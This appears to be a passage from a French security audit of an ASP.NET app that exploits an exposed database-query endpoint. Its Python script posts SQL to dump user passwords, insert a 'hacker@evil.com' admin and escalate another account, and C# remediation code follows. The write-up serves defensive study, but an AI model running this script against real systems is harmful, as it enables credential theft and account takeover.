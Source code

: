 ```python
    print("Configuration modifiée - sécurité désactivée")
```

### Scénario 5 : Accès à la base de données
```python
def database_exploitation(base_url):
    """Exploite l'accès direct à la base de données"""
    
    queries = [
        # Récupérer tous les utilisateurs
        "SELECT * FROM Users",
        
        # Extraire les mots de passe (s'ils ne sont pas hachés)
        "SELECT Email, Password FROM Users WHERE Role = 'Admin'",
        
        # Créer un utilisateur admin
        "INSERT INTO Users (Email, Password, Role) VALUES ('hacker@evil.com', 'password', 'Admin')",
        
        # Modifier les permissions
        "UPDATE Users SET Role = 'Admin' WHERE Email = 'attacker@example.com'"
    ]
    
    for query in queries:
        response = requests.post(f"{base_url}/api/config/database/query", 
            json={"query": query})
        
        print(f"Query: {query}")
        print(f"Result: {response.json()}")
```

## 🛡️ Solutions de remédiation

### 1. **Désactiver les endpoints de debug en production**

```csharp
// Dans Program.cs
if (!app.Environment.IsDevelopment())
{
    // Ne pas mapper les endpoints de debug en production
    app.UseExceptionHandler("/Error");
    app.UseHsts();
}
else
{
    app.UseDeveloperExceptionPage();
    // Endpoints de debug uniquement en développement
    app.MapDebugEndpoints();
}

// Méthode d'extension pour les endpoints de debug
public static class DebugEndpointExtensions
{
    public static void MapDebugEndpoints(this IEndpointRouteBuilder endpoints)
    {
        if (!endpoints.ServiceProvider.GetRequiredService<IWebHostEnvironment>().IsDevelopment())
        {
            return; // Ne rien mapper en production
        }

        endpoints.MapGet("/debug/info", () => new { message = "Debug info only in development" });
    }
}
```